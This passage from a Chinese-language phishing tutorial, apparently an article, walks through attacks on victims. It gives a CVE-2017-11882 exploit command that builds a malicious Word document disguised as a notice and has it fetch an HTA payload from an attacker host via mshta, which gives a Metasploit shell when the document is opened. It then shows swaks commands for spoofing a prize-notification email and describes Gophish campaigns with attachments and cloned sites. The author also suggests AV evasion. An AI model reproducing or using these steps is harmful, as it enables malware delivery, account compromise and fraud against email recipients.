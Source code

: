 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VSwbzFn3AUGLShpq55UnamULYHFsp7KpbopfaRA2uHFuKYXXcRu40TA/640?wx_fmt=png&from=appmsg "")  
  
步骤二：生成带病毒的doc文件并伪装为通知文件  
```
python2 Command109b_CVE-2017-11882.py -c "mshta http://192.168.126.132:8080/Uf7DGFz.hta" -o 通知文件.doc -i input.rtf
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7Vksfs13DvkhAI7MwDy0uTpKc3fVJg4GBqJOFzhgpSjwCPbBGbB256Uw/640?wx_fmt=png&from=appmsg "")  
  
受害人打开word，msf就会上线shell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VZ9mUzqNCAvT62sicdJgH1MyNKzFnwSxNxbVoN75xyapXkiaEFMnPus0g/640?wx_fmt=png&from=appmsg "")  
## 四、邮件伪造  
  
**Swaks**  
  
Swaks是kali自带的一款邮件伪造工具，通过swaks可以向任意目标发送任意内容的邮件  
```
swaks的用法：
--from <发件人的邮箱> 
--ehlo <伪造邮件头> 
--body <邮件正文内容> 
--header <邮件头信息，subject为邮件标题> 
--data <源邮件> 
--attach <附件文件>
```  
  
给指定邮箱发送邮件  
```
swaks --to seyoulala@chacuo.net --from A公司 --ehlo 中奖通知 --body 秉承“正德厚生，臻于至善”的企业核心价值观，立足发展，真情回馈社会和客户。全体员工祝贺您在此活动中获得一等奖。再次感谢您对本公司的关信和支持，本信仅为中奖凭证，具体细节见注意事项。 --header "Subject: 中奖通知"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VnDHkhn1LzOzCpbPEZjrVtJ5QwVibQp38BEDTL2V8VALoGjrCkylurgg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7V2yNLjsaiaf98uIdoyLPJ9zeVyjhJicDia7oGenmhDX235tibyY99pWwLXQ/640?wx_fmt=png&from=appmsg "")  
  
现在的邮箱都有某种检测机制，要想他人发邮件，这种方法就不太行了  
  
**Gophish**  
  
Gophish是一个开源的钓鱼工具包，自带web面板，对于邮件编辑、网站克隆、数据可视化、批量发送等功能的使用带来的极大的便捷。  
  
伪造中奖通知邮件，发送附件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7V0KkvcoQSibuBVKoibgAW3hMQI34j2a0G1J3ydkJibicEwrqbuFe6mCkL1A/640?wx_fmt=png&from=appmsg "")  
  
效果看着还可以，文件再免杀一下就更好了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VmHh8knEnSYfkiciciaHssUOYd25SRKfzEndBBe8oibPhje7IjwmejZoicjg/640?wx_fmt=png&from=appmsg "")  
  
第二种方法，邮件正文中插入克隆网站  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VooRVGRDYPciam9lkPJVBe7w6ibibLhwP4uMqxxEt0XiaATVE1G1ic7ZLcag/640?wx_fmt=png&from=appmsg "")  
  
